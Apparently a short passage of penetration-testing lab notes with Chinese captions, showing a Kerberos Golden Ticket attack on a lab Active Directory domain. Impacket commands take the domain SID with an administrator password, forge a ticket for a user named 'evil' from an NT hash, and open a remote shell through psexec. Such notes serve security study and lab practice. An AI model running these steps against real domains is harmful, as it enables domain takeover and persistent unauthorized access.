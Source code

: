 python3 /opt/impacket/example/lookupsid.py administrator:'Pa$$w0rd'@192.168.177.19 0
![image](images/SyflZozPp.png)
取得Domain SID

python3 /opt/impacket/example/ticketer.py -nthash <hash> -domain-sid <domain-sid> -domain lpt.com evil
![image](images/Hyt5bsfwT.png)


export KRB5CCNAME=evil.ccache

psexec.py lpt.com/evil@server2019.lpt.com -k -no-pass -dc-ip 192.168.177.19
![image](images/ryo9nsfP6.png)
成功

---